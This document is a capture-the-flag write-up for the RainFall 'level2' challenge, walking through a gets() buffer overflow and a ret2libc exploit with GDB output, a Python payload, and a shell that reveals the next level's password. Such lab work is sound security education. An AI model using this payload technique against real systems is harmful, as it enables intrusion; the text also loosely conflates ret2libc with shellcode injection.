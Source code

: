 # Level2

## Exploring the binary
```shell
level2@RainFall:~$ ./level2
phantom
phantom
level2@RainFall:~$ ./level2
FFFF FFF
FFFF FFF
```
The <code>level2</code> binary waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```
The main function calls <code>p()</code> upon execution. This makes us wonder if there are other functions that haven't been called.
```shell
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```
As we've seen again before, the function <code>p()</code> utilizes the unsafe <code>gets()</code> function, which is vulnerable to buffer overflow attacks.
```shell
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```
This time, there is no direct <code>system()</code> call, so we may need to find our own way to access it. This situation is commonly referred to as a <code>return to libc</code> attack, where the overflow overwrites the return address with the memory address of the injected shellcode. Upon returning from the function, instead of jumping to the legitimate address, it redirects execution flow to the shellcode.


## ret2libc
There are 3 prerequisites for planning this type of attack:
- <code>system()</code> - which allows executing shell commands
- <code>exit()</code> - used to terminate the program after executing the shell command
- <code>/bin/bash</code> - which is passed as an argument to <code>system()</code> to spawn a shell

``` shell
overflow --> return from p() ? --EXPLOIT--> system() --> exit() --> /bin/bash
```

It might seem weird that the <code>/bin/bash</code> comes after <code>exit()</code>. When a program is compiled and linked, functions like <code>system()</code> and <code>exit()</code> from the libc are typically located before any static data such as strings. Therefore, the address of the <code>exit()</code> function usually comes before the address of the <code>/bin/bash</code> string in memory.

The offset is found in the same manner as before, with a value of 80. We determine the addresses of the functions and commands using <code>GDB</code>:
``` shell
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find 0xb7e6b060, +999999999, "/bin/sh"
0xb7f8cc58
```

## Exploit
The exploit is constructed using the addresses and overflow in the following order:
1. Offset of 80 bytes.
2. Return address from function <code>p()</code> (0x0804853e).
3. <code>system()</code> address (0xb7e6b060).
4. <code>exit()</code> address (0xb7e5ebe0).
5. <code>/bin/bash</code> address (0xb7f8cc58).

``` shell
level2@RainFall:~$ python -c 'print "F" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF>FFFFFFFFFFFF>`�����X���
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
